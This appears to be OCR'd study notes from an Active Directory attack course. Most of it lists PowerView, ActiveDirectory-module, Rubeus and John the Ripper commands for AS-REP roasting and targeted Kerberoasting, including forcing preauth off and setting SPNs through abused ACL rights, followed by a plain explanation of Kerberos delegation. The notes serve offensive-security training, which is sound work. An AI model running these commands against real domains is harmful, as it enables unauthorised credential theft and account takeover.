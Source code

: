 With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well.
Enumerating accounts with Kerberos Preauth disabled -
Using PowerView -
Get-DomainUser -PreauthNotRequired -Verbose
Using ActiveDirectory module -
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
OR :- Force disable Kerberos Preauth -
Let's enumerate the permissions for RDPUsers on ACLs using PowerView -
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
Get-DomainUser -PreauthNotRequired -Verbose
Request encrypted AS-REP for offline brute-force.
Let's use ASREPRoast -
Get-ASREPHash -UserName VPN1user -Verbose
To enumerate all users with Kerberos preauth disabled and request a hash -
Invoke-ASREPRoast -Verbose
We can use John The Ripper to brute-force the hashes offline -
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worstpass.txt C:\AD\Tools\asrephashes.txt
Targeted Kerberosting - Set SPN
With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain).
We can then request a TGS without special privileges. The TGS can then be "Kerberoasted".
Enumerate the permissions for RDPUsers on ACLs using PowerView -
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
Using Powerview, see if the user already has a SPN -
Get-DomainUser -Identity supportuser | select serviceprincipalname
Using ActiveDirectory module -
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
Set a SPN for the user (must be unique for the domain) -
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}
Using ActiveDirectory module -
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add=‘dcorp/whatever1'}
Finally, Kerberoast the user -->
Rubeus.exe kerberoast /outfile:targetedhashes.txt
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worstpass.txt C:\AD\Tools\targetedhashes.txt
Kerberos Delegation -
Kerberos Delegation allows to "reuse the end-user credentials to access resources hosted on a different server".
This is typically useful in multi-tier service or applications where Kerberos Double Hop is required.
For example, users authenticates to a web server and web server makes requests to a database server. The web server can request access to resources (all or some resources depending on the type of delegation) on the database server as the user and not as the web server's service account.
Please note that, for the above example, the service account for web service must be trusted for delegation to be able to make requests as a user.
Process -->
A user provides credentials to the Domain Controller.
The DC returns a TGT.
The user requests a TGS for the web service on Web Server.
The DC provides a TGS.
The user sends the TGT and TGS to the web server.
The web server service account use the user's TGT to request a TGS for the database server from the DC.
The web server service account connects to the database server as the user.
